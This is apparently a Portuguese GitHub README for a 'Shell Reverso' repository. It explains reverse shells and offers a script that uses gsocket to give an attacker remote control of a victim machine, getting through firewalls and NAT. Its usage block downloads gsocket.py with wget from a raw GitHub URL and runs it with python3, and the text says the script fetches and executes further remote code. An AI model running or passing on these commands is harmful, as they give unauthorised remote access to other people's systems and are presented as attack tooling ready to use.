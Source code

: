 # Shell Reverso
![reverse-shell-1024x333](https://github.com/user-attachments/assets/7e5f5e5e-c7c3-4545-a0e9-ea1cfa534438)
Uma shell reversa é uma técnica de ataque onde a máquina vítima se conecta de volta à máquina do atacante, permitindo que o atacante execute comandos remotamente. A vítima geralmente inicia a conexão de saída, que pode passar despercebida por firewalls ou sistemas de segurança, pois é a máquina alvo quem "chama" o atacante. Esse tipo de ataque é utilizado para obter controle total sobre a máquina comprometida.
Este repositório contém um script que estabelece uma shell reversa com gsocket. Quando executado, o script baixa um arquivo de uma URL específica e executa o código, permitindo ao atacante acessar remotamente o sistema da vítima. A saída do script é redirecionada para output.txt,
O Gsocket permite que duas estações de trabalho em diferentes redes privadas se comuniquem entre si. Por meio de firewalls e por meio de NAT - como se não houvesse firewall
## Uso e Instalação
```bash
wget https://raw.githubusercontent.com/Sanemixyz/Shell-Reverso/refs/heads/main/gsocket.py
python3 gsocket.py
cat output.txt
```

![bandicam 2025-01-09 02-41-57-136](https://github.com/user-attachments/assets/303d977b-71e1-4974-a3ac-7ff91f49096f)
